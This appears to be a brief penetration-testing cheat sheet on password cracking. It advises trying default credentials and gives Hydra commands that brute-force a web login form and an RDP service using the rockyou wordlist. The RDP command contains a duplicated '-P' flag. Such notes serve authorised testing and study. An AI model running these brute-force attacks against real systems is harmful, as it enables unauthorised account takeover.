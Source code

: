 # 05 - Password Cracking

Index
- [First Rule!](#First-Rule)
- [Form Login](#Form-Login)

## First Rule
Always try the default credentials!

## Form Login
Hydra:
``` bash
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.1 -s 443 http-post-form "/login.php:LOGIN=^LOGIN^&password=^PASS^:Login failed"
         # user file # password file                  # target           # method                   # user field                  # error msg
```

``` bash
hydra -L user.txt -P -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.1
```
